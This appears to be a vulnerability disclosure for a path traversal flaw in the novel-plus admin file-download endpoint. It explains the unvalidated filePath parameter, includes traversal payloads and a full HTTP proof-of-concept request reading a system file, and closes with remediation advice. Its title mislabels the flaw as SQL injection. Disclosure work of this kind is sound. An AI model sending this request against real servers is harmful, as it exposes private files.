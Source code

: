 ## Vulnerability Submitter

##### Name:   邓俊锋

## SQL injection vulnerability exists in novel-plus v5.1.0

**Vulnerability Impact Scope**

`novel-plus < v5.1.0`

**official website**

 https://novel.xxyopen.com/index.htm

**github**

https://github.com/201206030/novel-plus

### Vulnerability Overview

Directory traversal vulnerability is a common web security flaw that allows attackers to access unauthorized files or directories on a server through specially crafted URL paths. This vulnerability typically arises due to insufficient validation of user input by the web application, enabling attackers to construct specific URL paths to access sensitive files on the server.

### JavaWeb code auditing process

**Source file: **

`novel-admin\src\main\java\com\java2nb\common\controller\FileController.java,lines179-197.`

![image-20250402224625364](./img/1.png)This code has a path traversal vulnerability for the following reasons:

1. **Unvalidated user-controllable parameter**:
- The `filePath` parameter is user-controlled, and the code does not perform any validation or filtering on it.
- An attacker can craft malicious `filePath` values (e.g., `../../etc/passwd`) to access sensitive files on the server, potentially leading to unauthorized data exposure.
2. **Path concatenation issue**:
- The code directly concatenates the user-input `filePath` with the upload path:
```java
String realFilePath = jnConfig.getUploadPath() + filePath;
```
- If `filePath` contains path traversal characters (e.g., `../`), it can bypass the intended upload directory restrictions and access arbitrary directories on the server.
3. **No restrictions on file access scope**:

- The code lacks restrictions on file access scope, allowing an attacker to exploit the path traversal vulnerability and access arbitrary files on the server.

### Vulnerability reproduction

**Vulnerability Route:** `/common/sysFile/download`

**Vulnerable Parameter:** `filePath`

1. Log in using the admin account to obtain the session cookie (which grants administrator privileges)

![image-20250219195734596](./img/2.png)

2.Subsequent testing demonstrates that a directory traversal attack successfully retrieved sensitive data from the `Windows/win.in` file.

![](./img/3.png)

**POC**

```HTTP
GET /common/sysFile/download?filePath=../../../../Windows/win.ini&fileName=test.txt HTTP/1.1 
Host: 192.168.200.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.200.1/main
Cookie: JSESSIONID=a3d5047e-3a4f-4454-8ba1-00053268b01a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
```

### **Vulnerability Remediation Recommendations**

1. **Strictly Validate User Input:**

   Conduct legitimacy checks on user-provided file names and path parameters. Filter out path traversal sequences such as ../, ..\, and URL-encoded forms (e.g., %2e%2e%2f).

2. **Use a whitelist mechanism:** 

   allow only specific character sets (such as letters, numbers, underscores) or file extensions (such as .jpg, .pdf).
